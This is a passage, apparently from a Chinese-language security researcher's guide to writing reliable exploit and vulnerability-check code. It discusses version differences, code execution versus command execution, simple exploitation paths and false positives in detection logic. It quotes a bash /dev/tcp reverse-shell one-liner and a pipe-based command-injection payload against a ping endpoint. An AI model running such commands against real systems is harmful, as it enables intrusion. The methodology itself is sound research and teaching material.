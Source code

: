 稳定利用里有两个问题需要额外注意：

一是编写的代码是否考虑到了存在漏洞的应用的不同版本之间的差异。比如 API 接口变化、路径变化等，可能会导致相当一部分的漏洞利用不成功；

二是`执行代码`优于`执行命令`。比如现在常见的一个示例的就是利用`代码执行`漏洞进行反弹 shell 的利用，演示用的多是利用执行类似 `/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1` 的命令来反弹 shell。

这里面有个`降级利用`的概念，即`代码执行` 却常被当做 `命令执行` 来使用，但是 `代码执行` 一般比`命令执行`可操作性更大，更稳定。

当只利用漏洞进行`执行命令`时，这当然没有什么问题，但是当用执行命令来反弹 shell 时，就会出现比较大的问题。比如，只适合 Linux 类系统，而且有些 docker、busybox 之类的精简环境可能没有 `/bin/bash`，或者不支持命令行下的反弹 shell，这些都会让漏洞利用不成功。

这种情况下的正确做法应该是优先执行一段代码，而不是`降级`之后的执行命令来完成复杂的操作。

### 3.最简利用优先

在能达到相同利用效果的情况下，选择最简单的实现路径。

比如最近的写的一个 [flink-unauth-rce](https://github.com/LandGrey/flink-unauth-rce) 漏洞利用，最优雅的方式是根据 flink api 来实现执行命令回显这个功能，但是势必要花点时间去学习和构造代码，不如直接利用程序报错回显，在报错结果中提取出执行命令的结果，省时省力效果良好。

## 五：须避免的错误

#### 1\. 检测条件不充足

比如，通过 GET 请求路径

```bash
/hard-to-guest-path/there/is/vulnerable
```

然后判断漏洞存在的核心逻辑是状态码 200，并且响应中存在 `admin` 关键词。

虽然请求路径比较特殊，但是考虑到有些网站总是返回 200 状态码，并且`admin`作为关键词过于普通，所以容易产生误报。

#### 2\. 检测关键词放置在发包内容中

比如检测一个可以回显的 GET 型命令执行漏洞，构造了如下的 payload

```bash
/api/ping?host=127.1|echo+79c363c6044c4c58
```

然后判断漏洞存在的核心逻辑是关键词 `79c363c6044c4c58` 出现在返回状态码是 200 的目标 response 中。

这类将判断漏洞存在的关键词放置在 GET 请求的 URL 中，**有些网站在请求不存在的路径时，也会返回 200 状态码，而且会将请求的 URL 全部返回到 response 中**，这样就产生了误报。

当然，不止 GET 请求，POST 等请求类型的漏洞验证也会存在此类问题。比如 POST 发包：

```bash
POST: /api/ping
DATA: host=127.1|echo+79c363c6044c4c58
```

**有些网站在接收到不能处理的请求时，会将 POST 的所有数据包括 HTTP Header 等回显到页面**，这时候判断关键词就会产生误报。

## 六：总结

规则是死的，人是活的。为了编写出符合要求的代码，在指定的要求、特殊情况下可以牺牲一些方面的准则特性来强化其他方面的准则特性。

比如，某些情况下付出 30% 的精力就可以编写出覆盖 90% 应用环境的代码，如果钻牛角尖，要付出 100% 的精力，编写出适合 99% 应用环境的代码，是无法享受漏洞研究到漏洞利用这整个过程的。

作为一名有追求的安全研究人员，不应该浅尝辄止于普通`漏洞验证`代码的编写，良好的`漏洞利用`代码的编写才能显示出漏洞的真正危害，体会到`漏洞利用`代码编写的精髓。
